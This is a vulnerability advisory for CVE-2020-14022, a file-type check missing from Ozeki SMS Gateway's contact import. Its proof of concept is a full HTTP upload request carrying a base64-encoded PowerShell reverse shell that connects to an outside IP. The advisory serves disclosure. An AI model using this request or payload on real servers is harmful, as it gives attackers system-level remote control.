

# CVE-2020-14022: Ozeki SMS Gateway Dangerous File Upload in "Import Contacts"

Ozeki NG SMS Gateway 4.17.1 through 4.17.6 does not check the file type when bulk importing new contacts ("Import Contacts" functionality) from a file. It is possible to upload an executable or .bat file that can be executed with the help of a functionality (E.g. the "Application Starter" module) within the application.

### Requirements:

This vulnerability requires:
- Access to an Ozeki Web Application administration interface

### Proof Of Concept:

Instead of importing a CSV file we imported a BAT file containing malicious PowerShell payload:


Upload HTTP Request:
```
POST /desktop HTTP/1.1
Host: <IP>:9501
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3835.0 Safari/537.36
Content-Type: multipart/form-data; boundary=---------------------------863316458376014617655172093
Content-Length: 2240
Cookie: usrckenc=4ef***TRUNCATED***712
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------863316458376014617655172093
Content-Disposition: form-data; name="mode"

importaddressbook
-----------------------------863316458376014617655172093
Content-Disposition: form-data; name="layout"

MENUVIEW
-----------------------------863316458376014617655172093
Content-Disposition: form-data; name="MENU"

COMPOSEMENU2
-----------------------------863316458376014617655172093
Content-Disposition: form-data; name="MAIN"

ADDRESSBOOKIMPORT
-----------------------------863316458376014617655172093
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
-----------------------------863316458376014617655172093
Content-Disposition: form-data; name="uploadedfile"; filename="a.bat"
Content-Type: application/x-msdos-program

C:\windows\system32\cmd.exe /c start /b C:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACcAMQA5ADIALgAxADYAOAAuADEAMAAxAC4AMQAnACwAOAAwACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAnAFAAUwAgACcAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAnAD4AIAAnADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7AAoA

-----------------------------863316458376014617655172093—
```

The "a.bat" file was uploaded to "C:\Windows\Temp" folder:


By abusing the "Application starter" module, we can execute the uploaded file:


Now, when a message is received, the "a.bat" will be executed and the attacker will get a reverse shell with system privileges on the server.

